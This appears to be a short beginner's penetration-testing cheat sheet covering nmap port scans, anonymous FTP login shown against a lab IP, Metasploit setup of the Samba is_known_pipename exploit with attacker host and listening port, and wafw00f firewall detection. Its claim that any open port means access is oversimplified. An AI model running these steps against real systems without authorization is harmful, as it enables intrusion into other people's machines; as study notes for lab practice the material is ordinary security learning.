 ## NMAP

 - Nmap ("Network Mapper") is used to discover hosts and services on a computer network by sending packets and analyzing the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection.
   - nmap -p <port or port range (1-100)> <target IP>, used to scan ports.
   - nmap -p- -A <target ip>, used to scan for all ports
   - Whenever you found open port that means you can get access through it.
   - If you see (ftp-anon: Anonymous FTP login allowed (FTP code 230)) go to the ftp service and enter
```console
Username: anonymous

Password: anonymous
```
Example output:
```console
   - ftp 192.168.1.36
Connected to 192.168.1.36
.
220-
220-|------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|------------------------------------------------------------|
220-
220
Name (192.168.1.36:kali): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

## Ports You Can Hack

 - Ports / protocols: You Can Hack
   - ftp
   - ssh
 - msfconsole is metasploit v6.2.15-dev
   - search samba
   - use 14 or exploit/linux/samba/is_known_pipename
   - set RHOSTS 192.168.1.36
   - set RPORT 139
   - RHOSTS : Target’s IP
   - LHOSTS : Attacker’s IP(Our IP)
   - RPORT : 139
   - LPORT : any available ports in your OS (4444/1337)

 - mysql

 - wafw00f is used to detect web application firewall.
   - wafw00f <url>
